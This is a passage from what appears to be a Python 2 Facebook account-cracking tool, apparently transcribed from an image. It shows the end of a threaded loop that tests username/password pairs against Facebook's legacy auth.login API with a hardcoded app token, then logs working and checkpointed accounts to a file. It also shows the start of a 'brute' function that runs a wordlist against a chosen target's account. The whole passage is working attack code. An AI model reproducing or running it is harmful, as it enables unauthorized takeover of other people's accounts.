                                                                                                                                          data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%252525257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                                                                                                                         q = json.load(data)
                                                                                                                                         if 'access_token' in q:
                                                                                                                                                 x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
                                                                                                                                                 z = json.loads(x.text)
                                                                                                                                                 print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass8+" =>"+z['name'])
                                                                                                                                                 oks.append(user+pass8)
                                                                                                                                         else:
                                                                                                                                                 if 'www.facebook.com' in q["error_msg"]:
                                                                                                                                                         check_it = open("out/output.txt", "a")
                                                                                                                                                         check_it.write(user+"|"+pass8+"\n")
                                                                                                                                                         check_it.close()
                                                                                                                                                         checkpoint.append(user+pass8)

		except:
			pass

	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal OK/CP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(checkpoint))
	print("\033[1;91m[+] \033[1;92mCP File saved \033[1;91m: \033[1;97mout/output.txt")
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	super()
######################################################

##### BRUTE FORCE #####
def brute():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	try:
		email = raw_input("\033[1;91m[+] \033[1;92mID\033[1;97m/\033[1;92mEmail\033[1;97m/\033[1;92mHp \033[1;97mTarget \033[1;91m:\033[1;97m ")
		passw = raw_input("\033[1;91m[+] \033[1;92mWordlist \033[1;97mext(list.txt) \033[1;91m: \033[1;97m")
		total = open(passw,"r")
		total = total.readlines()
		print 42*"\033[1;97m═"
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mTarget \033[1;91m:\033[1;97m "+email
		print "\033[1;91m[+] \033[1;92mTotal\033[1;96m "+str(len(total))+" \033[1;92mPassword"
		jamss('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		sandi = open(passw,"r")
		for pw in sandi:
			try:
				pw = pw.replace("\n","")
				sys.stdout.write("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;91m: \033[1;97m"+pw)
				sys.stdout.flush()
				data = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(email)+"&locale=en_US&password="+(pw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				mpsh = json.loads(data.text)
				if 'access_token' in mpsh: